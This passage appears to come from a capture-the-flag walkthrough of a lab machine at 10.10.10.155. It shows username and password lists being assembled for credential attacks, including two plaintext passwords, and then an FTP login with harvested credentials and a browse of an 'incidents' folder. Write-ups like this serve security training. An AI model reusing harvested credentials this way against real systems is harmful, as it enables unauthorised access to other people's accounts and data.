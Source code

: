 
I'll start a list of usernames and a list of passwords:



    root@kali# cat users
    root
    ib01c01
    ib01c02
    ib01c03
    ib01ftp
    ib01www
    support
    root@kali# cat passwords
    Thi$sh1tIsN0tGut
    YhgRt56_Ta



### FTP as ib01ftp

I'll connect using the creds from the email, and see what new I can
access. I'm dropped into the home directory of ib01ftp, and there's a
folder `incidents`:



    root@kali# ftp 10.10.10.155
    Connected to 10.10.10.155.
    220 (vsFTPd 3.0.3)
    Name (10.10.10.155:root): ib01ftp
    331 Please specify the password.
    Password:
    230 Login successful.
    Remote system type is UNIX.
    Using binary mode to transfer files.
    ftp> pwd
    257 "/home/ib01ftp" is the current directory
    ftp> ls
    200 PORT command successful. Consider using PASV.
    150 Here comes the directory listing.
    dr-xrwx---    4 1005     1000         4096 Dec 10  2018 incidents
    226 Directory send OK.



The folder contains two directories:



    ftp> ls
    200 PORT command successful. Consider using PASV.
    150 Here comes the directory listing.
    dr-xrwx---    2 1005     1000         4096 Jan 30  2019 ib01c01
    dr-xrwx---    2 1005     1000         4096 Dec 10  2018 ib01c03
    226 Directory send OK.


